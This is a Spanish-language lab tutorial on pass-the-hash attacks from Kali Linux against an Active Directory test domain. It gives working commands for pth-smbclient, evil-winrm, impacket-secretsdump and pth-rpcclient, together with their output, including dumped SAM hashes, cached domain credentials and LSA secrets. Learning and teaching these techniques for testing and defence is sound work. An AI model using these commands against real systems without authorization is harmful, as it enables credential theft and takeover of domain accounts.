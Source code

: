 ```yaml
---
icon: unlock
---
```


# Pass-The-Hash con Linux

Si queremos realizar lo mismo de antes, pero desde `linux` lo haremos con una herramienta que viene por defecto en `kali`, suponiendo que tenemos ya el `hash` del `administrador` o de cualquier tipo de usuario con el que queremos realizar ese `pth`, haremos lo siguiente:

```shell
pth-smbclient //192.168.5.5/c$ -U Administrator --pw-nt-hash a87f3a337d73085c45f9416be5787d86 -W corp.local
```

Info:

```
Try "help" to get a list of possible commands.
smb: \> ls
  $Recycle.Bin                      DHS        0  Sat May  8 04:20:24 2021
  Documents and Settings          DHSrn        0  Sun Jan  5 05:22:02 2025
  DumpStack.log.tmp                 AHS    12288  Tue Jan 21 03:14:12 2025
  pagefile.sys                      AHS 536870912  Tue Jan 21 03:14:12 2025
  PerfLogs                            D        0  Sat May  8 04:20:24 2021
  Program Files                      DR        0  Sun Jan  5 05:28:08 2025
  Program Files (x86)                 D        0  Sat May  8 05:39:35 2021
  ProgramData                       DHn        0  Sat Jan 11 10:12:12 2025
  Recovery                         DHSn        0  Sun Jan  5 05:22:02 2025
  Shares                              D        0  Mon Jan  6 07:06:47 2025
  System Volume Information         DHS        0  Sun Jan  5 06:12:17 2025
  Users                              DR        0  Sun Jan  5 05:28:05 2025
  Windows                             D        0  Tue Jan  7 14:12:54 2025

                15644159 blocks of size 4096. 12751911 blocks available
```

Vemos que hemos conseguido conectarnos al `DC` en el recurso compartido del `C$` como el `administrador` por lo que tendriamos acceso al `DC` desde `kali` como el usuario `Administrador` del dominio.

Esto mismo tambien lo podemos realizar mediante el protocolo `WinRM` (Protocolo de gestion remota, que suele estar activo en casi todas las infraestructuras de empresas de `Active Directory`), para ello antes activaremos este mismo protocolo en nuestra maquina `Windows` para que este activo y configurado con un comando, por lo que nos iremos a nuestro `WS01`, abriremos una `PowerShell` como `administrador` local y ejecutaremos lo siguiente:

```powershell
winrm quickconfig
```

Info:

```
WinRM no está configurado para recibir solicitudes en este equipo.
Se deben realizar estos cambios:

Inicie el servicio WinRM.
Establezca el tipo de servicio WinRM en inicio automático aplazado.

¿Desea realizar estos cambios [y/n]? y

WinRM se ha actualizado para recibir solicitudes.

Se cambió el tipo de servicio WinRM correctamente.
Servicio WinRM iniciado.
WinRM no está configurado para permitir acceso remoto al equipo para administración.
Se deben realizar estos cambios:

Habilitar la excepción de firewall WinRM.

¿Desea realizar estos cambios [y/n]? y

WinRM se actualizó para administración remota.

Excepción de firewall WinRM habilitada.
```

Y con esto ya tendriamos nuestro `WinRM` activado correctamente.

Ahora si nos vamos al `kali` y utilizamos una herramienta muy famosa llamada `evil-winrm` que no vendra por defecto en `kali`, podremos acceder de forma remota para gestionar un equipo mediante el protocolo `evil-winrm`, vamos a instalar la herramienta antes de todo.

```shell
sudo gem install evil-winrm
```

Y con esto ya tendriamos instalada la herramienta.

Vamos a probar a entrar en el equipo `WS01` de forma remota como el usuario `Administrador` de la siguiente forma:

```shell
evil-winrm -i 192.168.5.208 -u Administrator -p Passw0rd
```

Info:

```
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

Y con esto veremos que funciona correctamente, por lo que nos podemos conectar a dicho equipo.

Pero como nosotros no tenemos la contraseña, solo tenemos el `hash` del `Administrador` podremos hacer un `pth` con `winrm` de la siguiente forma:

```shell
evil-winrm -i 192.168.5.208 -u Administrator -H a87f3a337d73085c45f9416be5787d86
```

Info:

```
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
corp\administrator
```

Y con esto veremos que con el `hash` tambien nos dejo entrar.

Con la herramienta `impacket` se puede hacer lo mismo, con el `hash` podremos autenticarnos como el `administrador` para realizar cosas como el mismo.

```shell
impacket-secretsdump Administrator@192.168.5.208 -hashes :a87f3a337d73085c45f9416be5787d86
```

Hay que indicarselo con un formato especial para la herramienta poniendo los `:` por delante del `hash`.

Info:

```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xc8125866b327df176940c9f2d6a48f5f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrador:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Invitado:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:5ed544e71abe56b376b7993b21946520:::
santiago:1001:aad3b435b51404eeaad3b435b51404ee:7ce21f17c0aee7fb9ceba532d0546ad6:::
[*] Dumping cached domain logon information (domain/username:hash)
CORP.LOCAL/empleado1:$DCC2$10240#empleado1#fda53d6158406f827388476bcbc97c37: (2025-01-20 09:22:18)
CORP.LOCAL/Administrator:$DCC2$10240#Administrator#e1c8d7e26653ae629a74772a389cf7e6: (2025-01-20 09:23:12)
CORP.LOCAL/annice.mable:$DCC2$10240#annice.mable#77702054bffe13f7c5bbe919a228d985: (2025-01-12 11:36:13)
CORP.LOCAL/angelika.shelly:$DCC2$10240#angelika.shelly#835512d4e4bb1d962c57d290eb99f670: (2025-01-12 16:51:40)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
CORP\WS01$:aes256-cts-hmac-sha1-96:9a9fc7447f8fa5521eeef5af175be7af2189392bc0d56f2e7d41e4c15cdad294
CORP\WS01$:aes128-cts-hmac-sha1-96:73670fc7a88720c24ff4c869dc84a9c1
CORP\WS01$:des-cbc-md5:8c5bea107cc8c804
CORP\WS01$:plain_password_hex:5700320055006b0049004e0027003d005e0055005c00750052004c0077006e004e00510045003c002d0066005d004b005f007600330072004400350022002700750068004e00300041003d0024006c004e0022005700750065006b00640034004a0056006f003e006c005f006c0050005c005d002700360077002c00290033005e005d004f005e005100560027002e003200380029004f0078005100410049002c003a0025005f00680072005d00380034002500490068002200640045006f0072005c0063002d0022005f002f006f0065006700720022005f0061006c00780047006400590062007700770059005f00
CORP\WS01$:aad3b435b51404eeaad3b435b51404ee:afc5c02d936d73808ce716070e883ab8:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x6be6aee6bc489e7fab1ed9a63b1aa5c0d2f13fef
dpapi_userkey:0xb83f8122ee552579d8fbf4d9b304ae19ab5bb7af
[*] NL$KM 
 0000   5C B5 3B 8C D5 28 A0 C3  6A F2 57 A3 08 B6 F7 D4   \.;..(..j.W.....
 0010   E4 7D 11 84 8F 2C 98 2B  2D DD 06 7D 30 53 B4 23   .}...,.+-..}0S.#
 0020   4B 8D C7 7E 92 96 5B 48  67 29 99 50 C1 E4 27 A6   K..~..[Hg).P..'.
 0030   37 2C 9D 99 E8 FD 57 11  CC 44 47 ED 30 6F 96 00   7,....W..DG.0o..
NL$KM:5cb53b8cd528a0c36af257a308b6f7d4e47d11848f2c982b2ddd067d3053b4234b8dc77e92965b4867299950c1e427a6372c9d99e8fd5711cc4447ed306f9600
[*] Cleaning up... 
[*] Stopping service RemoteRegistry
[*] Restoring the disabled state for service RemoteRegistry
```

Y vemos que nos vuelva bien la `SAM` como el usuario `Administrador`.

Mediante el `rpcclient` tambien podremos realizar este `pth` de la siguiente forma:

```shell
pth-rpcclient -U corp/administrator%00000000000000000000000000000000:a87f3a337d73085c45f9416be5787d86 //192.168.5.208
```

En este caso como tiene que tener un formato en concreto el `hash` pero el nuestro es un `hash` simple tendremos que rellenarlo con `32` ceros por delante y despues de los `:` poner el `hash` del `administrador`.

Info:

```
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
rpcclient $>
```

Y aqui podremos ver que hemos accedido de forma correcta mediante el protocolo `rpcclient` haciendo un `pth`.
